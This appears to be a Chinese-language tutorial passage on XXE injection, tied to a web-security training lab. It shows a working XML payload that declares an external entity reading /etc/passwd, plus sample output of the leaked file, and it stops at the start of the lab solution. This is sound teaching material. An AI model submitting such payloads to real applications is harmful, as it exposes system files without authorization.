 3、如购物应用程序通过向服务器提交以下XML来检查产品的库存水平：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

若应用程序对XXE攻击不执行任何特定的防御，因此可以通过提交以下XXE有效负载来利用XXE漏洞检索/etc/passwd文件：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

此XXE有效负载定义外部实体&xxe，其值为/etc/passwd文件中的实体并使用产品ID值。这将导致应用程序的响应包含文件的内容：

```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

### 题目

实验1：利用XXE使用外部实体检索文件

```
Lab: Exploiting XXE using external entities to retrieve files
APPRENTICE

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file
```

```
信息：

本实验有一个“Check stock”特性，它解析XML输入并在响应中返回任何意外值。

要解决实验：注入一个XML外部实体来检索/etc/passwd文件的内容
```

### 解答

发现功能点  `Check stock`
